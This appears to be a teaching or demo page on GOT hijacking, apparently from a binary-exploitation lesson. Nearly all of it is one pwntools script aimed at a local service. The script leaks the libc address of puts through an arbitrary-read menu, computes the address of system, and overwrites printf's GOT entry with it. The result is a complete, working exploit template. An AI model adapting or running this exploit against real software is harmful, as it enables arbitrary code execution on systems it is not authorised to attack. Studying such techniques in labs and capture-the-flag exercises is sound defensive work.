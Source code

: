 --

![](./gothijack.png)

--

# Demo

```python
from pwn import *
context.arch="amd64"

#  io=process('./a.out')
io=remote('localhost',4000)
elf=ELF('./a.out')
libc=ELF('./libc.so.6')

def menu(idx):
    io.recvline()
    io.sendline(str(idx))
    io.recvline()

def read(addr):
    menu(0)
    io.sendline(str(addr))
    return int(io.recvline()[:-1])

def write(addr,value):
    menu(1)
    io.sendline(str(addr))
    io.recvline()
    io.sendline(str(value))
    return

puts_got=read(elf.got['puts'])
libc_base=puts_got-libc.symbols['puts']
libc_system=libc_base+libc.symbols['system']
write(elf.got['printf'],libc_system)

```